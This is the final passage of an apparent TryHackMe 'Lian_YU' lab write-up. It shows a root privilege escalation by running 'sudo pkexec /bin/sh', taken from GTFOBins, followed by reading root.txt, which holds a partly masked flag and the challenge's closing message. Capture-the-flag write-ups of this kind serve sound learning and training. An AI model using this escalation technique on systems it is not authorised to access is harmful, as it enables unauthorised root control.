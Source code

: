 After checking the sudoers it shows that i can use ******************************/usr/bin/pkexec****************************** to escalate my privilege since it is the sudoers file.

I checked [https://gtfobins.github.io/](https://gtfobins.github.io/) to see how i would use it

```bash
slade@LianYu:~$ sudo pkexec /bin/sh
#
```

![Screenshot from 2023-10-02 13-50-42.png](Tryhachme%20Lian_YU%20ac6adfea2edd4941b035c1cad013a1f0/Screenshot_from_2023-10-02_13-50-42.png)

After i ran it i was able to escalate my privilege and was able to be a user as root

```bash
# ls
root.txt
```

I now have access to root.txt

```bash
# cat root.txt
                          Mission accomplished

You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 

THM{M*_****_**_**_****_**_*_******_****_********_****_**_****_**_*********_**_***_***_****}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

### Mission accomplished

### 

### Thank you for reading this write-up!

### Created by ****shayolee(THM) sHayo_l33(x foemrly twitter) https://twitter.com/shayo_l33 ****
